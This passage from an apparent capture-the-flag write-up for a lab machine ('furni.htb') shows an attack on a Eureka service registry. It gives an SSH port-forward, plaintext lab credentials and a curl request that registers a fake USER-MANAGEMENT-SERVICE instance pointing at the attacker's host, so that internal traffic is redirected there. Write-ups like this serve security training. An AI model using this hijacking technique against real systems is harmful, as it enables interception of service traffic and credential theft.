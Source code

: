 3. **SSRF Attacks** - Access internal services through service registration
    
4. **Information Disclosure** - Enumerate internal service architecture
    

## Eureka Service Hijacking Attack

### Port Forwarding

First, let's establish port forwarding to access the Eureka server:

```bash
ssh oscar190@furni.htb -L 8761:127.0.0.1:8761
```

### Accessing Eureka Dashboard

Navigate to [`http://localhost:8761`](http://localhost:8761) and authenticate with the discovered credentials:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756913936709/f7b0cb56-151b-48da-bee4-fdb5f030c0e0.png align="center")

The dashboard reveals registered services including `USER-MANAGEMENT-SERVICE`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756914062406/061b85de-bcaa-4639-87fa-29532673f241.png align="center")

### Malicious Service Registration

We can hijack traffic by registering a malicious service with the same name as a legitimate one:

```bash
curl -X POST "http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/apps/USER-MANAGEMENT-SERVICE" \
  -H "Content-Type: application/json" \
  -d '{
    "instance": {
      "instanceId": "USER-MANAGEMENT-SERVICE:10.10.14.93:8081",
      "hostName": "10.10.14.93",
      "app": "USER-MANAGEMENT-SERVICE",
      "ipAddr": "10.10.14.93",
      "vipAddress": "USER-MANAGEMENT-SERVICE",
      "secureVipAddress": "USER-MANAGEMENT-SERVICE",
      "status": "UP",
      "port": {
        "$": 8081,
        "@enabled": "true"
      },
      "dataCenterInfo": {
        "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
        "name": "MyOwn"
      }
    }
  }'
```
